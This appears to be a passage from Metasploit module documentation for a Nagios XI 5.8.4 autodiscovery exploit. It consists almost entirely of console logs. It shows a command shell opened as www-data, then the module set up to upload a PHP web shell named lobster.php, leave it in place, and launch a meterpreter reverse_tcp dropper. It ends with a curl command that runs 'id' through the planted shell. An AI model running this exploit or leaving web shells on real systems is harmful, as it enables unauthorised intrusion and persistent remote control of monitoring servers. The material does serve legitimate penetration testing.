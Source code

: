 ```
[*] Deleting autodiscovery job
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo nyjlVFXNgWehsWFs;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "nyjlVFXNgWehsWFs\n"
[*] Matching...
[*] A is input...
[+] Deleted /usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp/OalF9GV4AC.php
[*] Command shell session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44226 ) at 2022-02-05 17:56:49 -0800

whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),135(Debian-snmp),1001(nagios),1002(nagcmd)
pwd
/usr/local/nagiosxi/html/includes/components/highcharts/exporting-server/temp
```

### Nagios XI 5.8.4 - Leave a web shell behind

```
msf6 > use exploit/linux/http/nagios_xi_autodiscovery_webshell
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set RHOST 10.0.0.6
RHOST => 10.0.0.6
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set DELETE_WEBSHELL false
DELETE_WEBSHELL => false
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > set WEBSHELL_NAME lobster.php
WEBSHELL_NAME => lobster.php
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] The target appears to be vulnerable. Determined using the self-reported version: 5.8.4
[*] Attempting to grab a CSRF token from /nagiosxi/includes/components/autodiscovery/?mode=newjob
[*] Uploading webshell to /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Testing if web shell installation was successful
[+] Web shell installed at /nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php
[*] Executing Linux Dropper for linux/x86/meterpreter/reverse_tcp
[*] Sending stage (989032 bytes) to 10.0.0.6
[*] Command Stager progress - 100.00% done (700/700 bytes)
[*] Deleting autodiscovery job
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.6:44230 ) at 2022-02-05 18:07:14 -0800

meterpreter > quit
[*] Shutting down Meterpreter...

[*] 10.0.0.6 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(linux/http/nagios_xi_autodiscovery_webshell) > exit
albinolobster@ubuntu:~/metasploit-framework$ curl --insecure https://10.0.0.6/nagiosxi/includes/components/highcharts/exporting-server/temp/lobster.php?cmd=id
```
